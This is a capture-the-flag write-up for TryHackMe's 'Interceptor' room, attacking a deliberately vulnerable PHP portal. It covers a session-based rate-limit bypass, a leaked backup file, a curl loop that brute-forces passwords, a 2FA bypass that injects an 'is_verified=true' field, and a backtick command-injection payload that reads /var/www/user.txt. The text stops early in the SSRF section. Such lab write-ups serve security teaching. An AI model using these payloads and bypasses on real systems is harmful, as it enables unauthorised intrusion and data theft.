# MediaHub — Interceptor

*From Authentication Bypass to Remote Code Execution via Request Interception and SSRF-to-Command-Injection*

**TryHackMe Room:** Interceptor &nbsp;|&nbsp; **Engagement Type:** Black-Box Web Application Assessment

---

## Task Scenario

MediaHub is presented as a normal internal portal used by journalists to manage content. Everything appears to be protected behind a login and a two-factor verification system, but the real attack surface lies in how the front-end communicates with its backend APIs.

The objective of the room is to assume the role of an attacker, intercept traffic between the browser and the server using a proxy, analyse how the application processes requests, and experiment with modifying the data being sent. The room asks for two pieces of evidence:

1. The flag obtained after logging in as `admin`.
2. The contents of `/var/www/user.txt`, implying some form of file read or code execution on the host.


*Figure 0 — Room brief: MediaHub, target IP `10.49.137.246`, and the two questions to answer.*

---

## Summary

The engagement began with reconnaissance (`nmap`) confirming an Apache/PHP backend over HTTP and SSH. The login form submitted credentials as `multipart/form-data` to `api_login.php` via `fetch()`; early attempts at classic SQL injection were blocked by a per-session rate limiter ("Too many login attempts"), which was bypassed simply by dropping the `Cookie` header on each request to force a fresh, unlocked session.

Rather than SQL injection, the real initial-access vector turned out to be an **information disclosure via a `.bak` backup file** (`login.php.bak`), which leaked a developer comment containing the admin account's email address and its password composition policy. This was used to construct the correct credential through a small, targeted brute force of the policy's missing variable (the year).

Logging in then presented a **Two-Factor Authentication (OTP) step**. By intercepting the `verify_otp.php` request and appending an extra form field (`is_verified=true`) that was never part of the legitimate form, the backend's authorization check was bypassed entirely — a classic **mass assignment / client-trusted state** vulnerability. This granted full admin access to the dashboard and the first flag.

The dashboard exposed an **"Import Feed" RSS/Atom fetcher** that fetched a user-supplied URL server-side. This function had several layers of input validation (scheme allow-listing, private-IP blocking) consistent with SSRF mitigations — but the error output revealed the backend was shelling out to the `curl` binary directly. This meant the real vulnerability was **OS command injection**, not SSRF: shell metacharacters (backticks, `$()`) in the "URL" field were interpreted by the underlying shell. This was used to read `/var/www/user.txt` directly, and subsequently to stage and execute a reverse shell payload, yielding an interactive shell as `www-data` with full filesystem access.

### Quick-Reference Answers

| Milestone | Answer |
|---|---|
| Admin backup file leaking credentials policy | `login.php.bak` |
| Admin account email (from leaked comment) | `admin@mediahub.thm` |
| Admin password (derived from policy: `MediaHub` + year) | `[REDACTED]` |
| 2FA bypass technique | Injected `is_verified=true` form field into `verify_otp.php` |
| Flag after admin login | `[REDACTED]` |
| Vulnerable feature for RCE | "Import Feed" → OS command injection via `curl` shell-out |
| Working injection payload | `` http://example.com`cat /var/www/user.txt` `` |
| `/var/www/user.txt` contents | `[REDACTED]` |

---

## Techniques, Commands, and Walkthrough

Techniques are presented in the order they were applied. Each section names the technique category, the commands/payloads used (and why), and the corresponding evidence captured during testing. **Only steps that produced working results are included.**

### 1. Reconnaissance — Service Enumeration

**Category:** Network/Service Reconnaissance

```bash
nmap -sC -sV 10.49.137.246
```

Identified three open services: SSH (OpenSSH 8.2p1 on Ubuntu), DNS (ISC BIND 9.16.1), and HTTP (Apache 2.4.41 on Ubuntu, page title "MediaHub"). The HTTP cookie flags check also flagged `PHPSESSID` with no `httponly` flag set — an early indicator of a PHP backend with loosely configured session cookies.



*Figure 1 — Nmap scan confirming Apache 2.4.41/PHP backend on port 80, OpenSSH on 22, and BIND on 53.*

---

### 2. Baseline Traffic Analysis — Browser DevTools

**Category:** Web Application Reconnaissance

Before reaching for a full proxy, the browser's own Network tab was used to observe the login flow. Submitting the login form triggered a `POST` request to `api_login.php`, returned as `json`/`fetch`, not a traditional form submission.

The Storage tab confirmed the only persistence mechanism in play was a single `PHPSESSID` session cookie (no `httpOnly`, no `Secure`, `SameSite=None`) — meaning session state could be freely manipulated client-side.


*Figure 3 — DevTools Storage panel showing the `PHPSESSID` cookie with no HttpOnly/Secure flags.*

---

### 3. Client-Side Source Review — `view-source`

**Category:** Static Source Review

Viewing the page source of `login.php` revealed the exact submission logic: the form is serialised with `FormData` (i.e. `multipart/form-data`, **not raw JSON**) and posted via `fetch("api_login.php")`. The response contract was also exposed: `{ ok: bool, error, message, redirect }`.

```html
<script>
const form = document.getElementById("loginForm");
...
const payload = new FormData(form);
const res = await fetch("api_login.php", { method: "POST", body: payload });
const data = await res.json();
if (!data.ok) { /* show data.error */ }
else { window.location = data.redirect; }
</script>
```

This single detail was important: earlier manual SQL-injection attempts sent as raw JSON bodies in Burp were being ignored by the backend, because the server expected multipart form fields, not a JSON object.


*Figure 4 — `view-source:` of login.php confirming the login request is sent as `multipart/form-data` via `FormData`/`fetch`, not JSON.*

---

### 4. Proxy Interception — Capturing the Real Request

**Category:** Traffic Interception / Request Tampering (Burp Suite)

With Burp Suite configured as the system/browser proxy and intercept enabled, a real login attempt was captured and edited in place to carry a classic SQL-injection tautology in the `email` field.

```text
POST /api_login.php HTTP/1.1
Content-Type: multipart/form-data; boundary=----geckoformboundary...

------geckoformboundary...
Content-Disposition: form-data; name="email"

admin@mediahub.com' -- -
------geckoformboundary...
Content-Disposition: form-data; name="password"

asdsa
------geckoformboundary...--
```


*Figure 5 — Burp Proxy intercepting the real multipart POST to `api_login.php`, edited in-place with a SQL injection payload in the email field.*

---

### 5. Rate-Limit Discovery and Session-Reset Bypass

**Category:** Logic Flaw — Session-Scoped Rate Limiting Bypass

Repeated attempts in Burp Repeater quickly triggered a lockout tied to the session cookie:

```json
{"ok":false,"error":"Too many login attempts."}
```


*Figure 6 — Repeated Repeater attempts on the same `PHPSESSID` trigger `"Too many login attempts."`.*

Removing the `Cookie` header entirely from the Repeater request and resending caused the server to issue a **brand-new `PHPSESSID`** via `Set-Cookie`, with the attempt counter reset to zero. This confirmed the lockout was tracked per-session rather than per-IP or per-account, so every subsequent login attempt only required deleting the `Cookie` header before sending.

```text
# Remove the Cookie header from the Repeater request before every attempt
Set-Cookie: PHPSESSID=<new session>; path=/
{"ok":false,"error":"Invalid credentials."}
```


*Figure 7 — Dropping the Cookie header resets the attempt counter; the server issues a fresh session and returns a normal "Invalid credentials" response instead of the lockout message.*

> Classic SQLi payloads (`' OR 1=1-- -`, `' OR '1'='1`, etc.) were exhausted against both the email and password fields, each with a fresh session, and all returned `"Invalid credentials."` — indicating the login query was **not** vulnerable to classic string-based SQL injection (most likely parameterised queries on the backend). The actual path to admin access turned out to be information disclosure instead (Section 6).

---

### 6. Information Disclosure — Backup File Leak (`login.php.bak`)

**Category:** Sensitive File Exposure — Source Code / Backup Disclosure

Since the application is PHP on Apache, common backup-file naming conventions left by editors/deployment scripts (`.bak`, `.old`, `.swp`) were tested directly against known source filenames:

```bash
curl http://10.49.137.246/login.php.bak
```

The backup file was still being served by Apache (no `.bak` extension handling/deny rule configured) and contained the **original PHP source with an unremoved developer comment**:

```php
<?php
include "header.php";

/*
|--------------------------------------------------------------------------
| Developer Note (temporary)
|--------------------------------------------------------------------------
| Admin test account for staging environment
| Email: admin@mediahub.thm
|
| Password policy reminder:
| Admin password follows company format:
| MediaHub + any year
|
| TODO: remove before production deployment
*/
?>
```


*Figure 8 — `login.php.bak` served directly by Apache, leaking a developer note with the admin email and password composition policy ("MediaHub" + any year).*

This is the actual root cause of the initial compromise: a leftover backup file disclosed both a valid username and a predictable password structure, making classic SQL injection unnecessary.

---

### 7. Targeted Credential Brute Force

**Category:** Credential Attacks — Policy-Constrained Password Guessing

With the password format narrowed to `MediaHub` + a four-digit year, a small, targeted loop (rather than a full wordlist attack) was sufficient:

```bash
for y in $(seq 1990 2030); do
  echo -n "$y "
  curl -s -X POST http://10.49.137.246/api_login.php \
    -F 'email=admin@mediahub.thm' \
    -F "password=MediaHub$y"
  echo
done
```


*Figure 9 — Shell loop iterating the year component of the disclosed password format against `api_login.php`.*

> **Note:** fresh sessions are required per the rate-limit behaviour discovered in Section 5 — running this loop against a live target needs either a very short lockout window, a session reset between requests, or a small reduction in request rate to avoid the `"Too many login attempts."` response.

A correct guess in this range authenticated successfully and advanced the application straight to a **Two-Factor Authentication (OTP)** step rather than the dashboard, confirming a second control still needed to be bypassed.

```bash
curl -i http://10.49.137.246/otp.php
```


*Figure 10 — Successful login redirects to `otp.php`, a Two Factor Verification screen requesting a 6-digit OTP (the placeholder text "123456" visible in the input is a UI hint, not a prefilled value).*

---

### 8. Source Review of the OTP Flow

**Category:** Static Source Review (via Proxy)

Capturing `GET /otp.php` in Burp revealed the client-side verification logic, confirming the OTP is submitted as another `multipart/form-data` POST to `verify_otp.php`, with the same `{ok, error, message}` response contract as the login endpoint:

```js
const payload = new FormData(form);
const res = await fetch("verify_otp.php", { method: "POST", body: payload });
const data = await res.json();
if (!data.ok) { /* show data.error */ }
else {
  msg.innerHTML = `...${data.message}...`;
  setTimeout(() => { window.location = "dashboard.php"; }, 700);
}
```


*Figure 11 — Burp Repeater capture of `otp.php`'s page source, confirming `verify_otp.php` as the verification endpoint and the `{ok, error, message}` JSON contract.*


Attempts to locate leftover backup files for the OTP endpoints (`verify_otp.php.bak`, `otp.php.bak`) returned the application's generic fallback homepage rather than real file contents, confirming no equivalent backup-file leak existed for this part of the flow.

---

### 9. Mass Assignment — Client-Trusted `is_verified` Parameter

**Category:** Broken Access Control — Mass Assignment / Client-Trusted State

Rather than attempting to guess or brute-force a genuine 6-digit OTP, the `verify_otp.php` request body itself was inspected for additional parameters the application might trust blindly. An extra form field, `is_verified`, was appended to the legitimate request and set to `true` — a field never rendered or populated by the actual HTML form.


```text
POST /verify_otp.php HTTP/1.1
Content-Type: multipart/form-data; boundary=----geckoformboundary...

------geckoformboundary...
Content-Disposition: form-data; name="otp"

123456
------geckoformboundary...--
```
```json
{"ok":false,"error":"Invalid OTP. Try again.","is_verified":false}
```


*Figure 15 — Burp Repeater confirming the baseline: a guessed OTP of `123456` fails with `is_verified: false` echoed back in the response.*

```text
------geckoformboundary...
Content-Disposition: form-data; name="is_verified"

true
------geckoformboundary...--
```
```json
{"ok":true,"message":"OTP verified. Redirecting..."}
```


*Figure 16 — Burp Repeater confirming the bypass: submitting only `is_verified=true` (no `otp` field required) returns `"ok":true"` and the verified-redirect message.*

Following the response's redirect to `dashboard.php` with the now-verified session granted full administrative access and displayed the first flag.


*Figure 17 — Admin dashboard reached after the `is_verified` bypass: profile shows `Role: admin`, `Verified: Yes`, and the flag banner at the top of the page. The dashboard also exposes a "Change Profile Picture" upload feature and an "Import Feed" URL-fetching feature.*

---

### 10. Feature Discovery — "Import Feed" Server-Side Fetcher

**Category:** Attack Surface Mapping (Authenticated)

The admin dashboard's **Import Feed** panel accepts an RSS/Atom URL, fetches it **server-side**, and returns the raw response body to the browser — a textbook potential **Server-Side Request Forgery (SSRF)** surface. Initial probing showed the application enforcing multiple input restrictions:

```text
file:///var/www/user.txt          → "Invalid URL"
file://localhost/var/www/user.txt → "Only http/https allowed"
```

